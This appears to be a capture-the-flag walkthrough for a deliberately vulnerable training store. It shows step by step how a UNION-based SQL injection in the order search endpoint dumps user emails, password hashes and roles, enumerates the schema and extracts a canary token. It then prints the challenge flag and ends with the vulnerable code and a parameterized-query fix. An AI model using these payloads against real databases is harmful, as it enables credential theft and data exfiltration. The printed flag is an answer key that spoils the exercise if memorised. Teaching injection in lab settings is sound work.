





The order filtering page on OopsSec Store takes a status string from a dropdown and drops it straight into a SQL query. No parameterization, no escaping. That's enough to dump the entire `users` table: emails, passwords, roles.

## Table of contents

## Lab setup

From an empty directory:

```bash
npx create-oss-store oss-store
cd oss-store
npm start
```

Or with Docker (no Node.js required):

```bash
docker run -p 127.0.0.1:3000:3000 leogra/oss-oopssec-store
```

Head to `http://localhost:3000`.

## Target identification

There's a "My Orders" page where you can filter orders by status (`PENDING`, `SHIPPED`, `DELIVERED`, etc.). Pick a status from the dropdown and the frontend sends a POST to `/api/orders/search`:

```json
{
  "status": "DELIVERED"
}
```

That `status` value gets dropped straight into a SQL query on the backend. No sanitization.

## Exploitation

### Step 1: Log in

Use the test credentials on the login page:

- Email: `alice@example.com`
- Password: `iloveduck`



### Step 2: Find the vulnerable endpoint

After logging in, go to `http://localhost:3000/orders/search`. This is the order search page with the status dropdown.



### Step 3: Intercept the request

Open DevTools, go to the Network tab. Use the dropdown to trigger a POST to `/api/orders/search`.



Copy the request into Burp Suite or Postman so you can edit the body.

### Step 4: Craft the payload

This is a UNION-based injection. The idea: close the original query's string literal, tack on a `UNION SELECT` that pulls from the `users` table, and comment out the rest. Replace the body with:

```json
{
  "status": "DELIVERED' UNION SELECT id, email, password, role, addressId, id, email, password, role FROM users --"
}
```

Breaking it down:

1. The single quote (`'`) closes the string literal in the original query
2. `UNION SELECT` appends a second result set from `users`
3. The column count has to match the original query — nine columns, hence the repeated ones
4. `--` comments out whatever comes after

You do not have to count the columns by hand, by the way. Get it wrong and SQLite tells you:

```json
{
  "error": "Raw query failed. Code: `1`. Message: `SELECTs to the left and right of UNION do not have the same number of result columns`"
}
```

### Step 5: Get the data

Send it. The server runs the injected SQL without flinching.



The response mixes user data in with the order results — emails, MD5 password hashes, roles. What it does not contain is a flag:

```json
{
  "message": "SQL syntax detected in the status filter, but the results hold nothing you did not already know."
}
```

Credentials are loot; the flag is handed over only when the response carries a row this endpoint could never have produced on its own.

### Step 6: Enumerate the schema

Ask SQLite what it is holding, through the same nine columns:

```json
{
  "status": "PENDING' UNION SELECT 1, 2, group_concat(name), 4, 5, 6, 7, 8, 9 FROM sqlite_master WHERE type='table' --"
}
```

```
users,products,carts,cart_items,orders,order_items,addresses,flags,hints,revealed_hints,reviews,support_access_tokens,found_flags,project_init,visitor_logs,wishlists,wishlist_items,password_reset_tokens,supplier_orders,coupons,gift_cards,stream_config,sqlite_sequence,internal_secrets
```

`flags` is walled off — naming it in a payload returns `403`, and any `OSS{…}` value is stripped from the response on its way out. `internal_secrets` is not:

```json
{
  "status": "PENDING' UNION SELECT 1, 2, sql, 4, 5, 6, 7, 8, 9 FROM sqlite_master WHERE name='internal_secrets' --"
}
```

```sql
CREATE TABLE "internal_secrets" ("id" TEXT NOT NULL PRIMARY KEY, "slug" TEXT NOT NULL, "token" TEXT NOT NULL)
```

### Step 7: Read the canary

One row per injection challenge, keyed by slug. Take the one for this challenge:

```json
{
  "status": "PENDING' UNION SELECT 1, 2, token, 4, 5, 6, 7, 8, 9 FROM internal_secrets WHERE slug='sql-injection' --"
}
```

```json
{
  "orders": [
    {
      "id": "1",
      "total": "2",
      "status": "CANARY-SQL-INJECTION-068e44aaf15b",
      "userId": "4"
    }
  ],
  "flag": "OSS{sql_1nj3ct10n_vuln3r4b1l1ty}",
  "message": "Internal secret exfiltrated through the order search! Well done!"
}
```



The token is generated when the lab is seeded, so it is different on every instance: returning it proves the query ran.

## Vulnerable code analysis

Here's what the backend does with your input:

```ts
const statusFilter =
  status && typeof status === "string" ? `AND o.status = '${status}'` : "";

const query = `
  SELECT ...
  FROM orders o
  WHERE o."userId" = '${user.id}' ${statusFilter}
`;
```

The code expects something like `DELIVERED`. It gets a UNION SELECT instead.

## Remediation

Use parameterized queries. With Prisma:

```ts
const results = await prisma.order.findMany({
  where: {
    userId: user.id,
    status: status,
  },
});
```

Prisma parameterizes `status` automatically, so injected SQL never gets executed. If you need raw SQL, use prepared statements with placeholders instead of string interpolation.

Don't rely on input validation or escaping to stop SQL injection. Parameterized queries are the fix.
